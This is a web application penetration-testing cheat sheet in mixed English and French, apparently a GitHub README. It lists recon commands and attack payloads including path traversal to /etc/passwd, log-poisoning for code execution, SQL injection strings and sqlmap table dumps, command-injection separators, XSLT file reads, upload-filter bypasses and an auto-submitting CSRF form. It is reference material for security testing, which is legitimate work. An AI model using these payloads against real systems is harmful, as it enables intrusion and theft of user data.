 # Tools
- Javascript deobfuscator/beautifier
- cURL (client http en CLI)
- Burp Suit (HTTP proxy, scanner) + extensions CEO (SQLmap) et JSON web token attacker (JOSEPH)
- dirb/wfuzz (website directory discover)
- SecLists (https://github.com/danielmiessler/SecLists)

# Methodology
## OSINT/Recon 
- **ping** : $ ping www.site.com 
- **whois** : $ whois 'www.site.com' ; $ whois <ip>
- **google dorks** : search for credentials : "intext:<thetarget> AND intext:@gmail.com AND intext:password" ; Tools : FastGoogleDorks, theharvester    
- **DNS** : DNS records : $ dig domain.com ANY ; PS> nslookup -q=TXT domain.com 
AXFR transfert zone
- **VHOSTS** : HTTP "Host" header modification or "/etc/hosts" file modification to access potential VHOST 
- **Subdomains enumeration** : $ amass enum -passive -d domain.com -src 
- **Network scan** : $ nmap -p- sV site.com // -A version detection -oA fichier_out  

## Client source code
- **Information** : CMS version ; file disclosure(.js files) ; unsafe cross-domain include

## Server config
Information gathering & vuln identifier: 
https://github.com/codingo/Reconnoitre 

### URL: 
- **Unprotected references/directory listing** : dirb+wfuzz w/ SecLists (raft-medium-files.txt & raft-large-files.txt) (unprotected refs such as /admin/, robots.txt, sitemap.xml, etc.)  
- **Backup files** : /dev/, index.php~, /.git/, index.php.bak, index.php.old, .phps, .swp, etc.
- **Full Path Disclosure** [/index.php?file[]=1   (array include bug 'can't include an array'), https://www.owasp.org/index.php/Full_Path_Disclosure]
- **Redirections** : $ curl -v 

### REQUESTS:
- Test all headers 
- Test all methods (TRACE, PUT, DELETE, OPTIONS)
- Verb tampering (.htacces -> request w/ custom method $ curl -X YOLO)

- Fonctions PHP dangereuses, evaluation de code (preg_replace()+e modifier, assert(), include()...)
- PHP type juggling (loose comparison, strcmp(array()), magic hashes)
- Packages vulnerables ex:phpbb [www.exemple.com/phpbb/install/...]

## Authentication

- Authentication (Cookies, JWT, etc...)
[JWT attacks : Burp Extension : None algorithm header change, signature algorithm bypass, bruteforce]
- Cloisonnement users ? privesc ? lateral move ? -> Burp AuthMatrix
- CSRF ? [is the auth cookie-based ? is there an unpredictable element checked on the server-side for each request ?]

## Injections & inputs sanitizing

### SERVER SIDE:
- Check PayloadAllTheThings ( https://github.com/swisskyrepo/PayloadsAllTheThings )
**File inclusion**  
LFI [?f=../../etc/passwd, wrappers(voir PDF wrappers-filters): ?inc=php://filter/read=convert.base64-encode/resource=, ]
 + double encoding
 LFI to RCE : try PHP code injection from Apache logs : Request GET /<?php phpinfo(); ?> then include the /var/log/apache2/access.log file
 CHECK LFI TO RCE PayloadAllTheThings
 RFI : base64, view_source()...
test : passer des arrays en arguments, certaines fonctions PHP plantent (ex strcmp(), include(), etc.)
 Ã‰chappement : CRLF[%0A], NULL BYTE[%00], Php truncation [a/../admin.html/./.[x4096]././././] 
 
**Path traversal**  
[DotDotPwn]

**SQL injection**  
[authentification(classic,gbk=å‘µ' or 1=1 #, \xbf\x27), string(identify columns number with ' UNION SELECT NULL,NULL,NULL, numÃ©rique, SQLmap]
SQLi method : 
	If format like "id=1" -> integer-based injection
	If format like "username=toto" -> string-based injection

	1 - Target the field of the request
	2 - Find if it is string-based or integer-based
	3 - Try to trigger an error
	4 - Try to fallback on the default payload by modifying it 

[sqlmap -u "http://testsite.com/login.php" --dbs]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db --tables]
[sqlmap -u "http://lesite.com/index.php" --data "username=login&password=pass" -D site_db -T users --dump] 
order by : nombre de colonnes
Error based : convert(), file_name()...

**Command injection**  
[original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
Command execution inside a command :
original_cmd_by_server `cat /etc/passwd`
original_cmd_by_server $(cat /etc/passwd)]

**XPATH injection**   


**Template injection**  
${2*2} (server-side,voir PDF)

**LDAP injection**  
(&(uid=*))(userPassword=*)(&))

**XSLT code execution**  
exemple :  
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">  
<xsl:template match="/">  
<xsl:value-of select="php:function('file_get_contents','index.php')"/>  
<xsl:value-of select="php:function('opendir','/directory/')"/>  
<xsl:value-of select="php:function('chdir','/directory/')"/>  
<xsl:value-of select="php:function('readdir')"/>  
</xsl:template>  
</xsl:stylesheet>  


**XXE (XML External Entity)**  
exemple dans un flux rss :   
TODO 

**GraphQL injection**  
- query={__schema{types{name,fields{name}}}} to enumerate 

**FILE UPLOAD**  
- Send an EICAR file (for audits)
- PUT method
- Double extension [.php.jpg]
- Type MIME modification : change Content-Type : "application/x-php" to "image/gif", "image/png", "image/jpeg"
- Null byte  
.php%00.jpg
.php\x00.jpg
- Magic bytes file signature(ex : add GIF89a in the beginning of the file for .gif)
- zip + lien symbolique (zip --symlinks test.zip lien, avec ln -s /etc/passwd lien)

### CLIENT SIDE:
**XSS**  
[document.write(unescape()), document.write(String.fromCharCode(unicode))]

**CSRF**  
3 regles :
1. L'attaquant a une raison de provoquer l'atq
2. Authentification repose uniquement sur des cookies de session
3. Pas d'element impredictible dans la requete
-> Generate CSRF PoC Burp
exemple de form : ( <form name="test" method="post"
action="http://sitevuln.fr/profiles/?action=profile">
<input type="checkbox" name="admin" checked >
</form>
<script>document.test.submit()</script>)


## Encryption protocols & ciphers
- testssl.sh : weak ciphersuites/protocols ?

## NETWORK =

- Transfert de zone DNS si misconfig [dig @SERVEURDNS -p *port* AXFR *domaine*]
- LDAP null bind [ldapsearch -x -h *le.server.ldap* -p *port* -s base -b '' "(objectClass=*)" "*" +]

# Exploitation

- Reverse shell : pentestmonkey php reverse shell
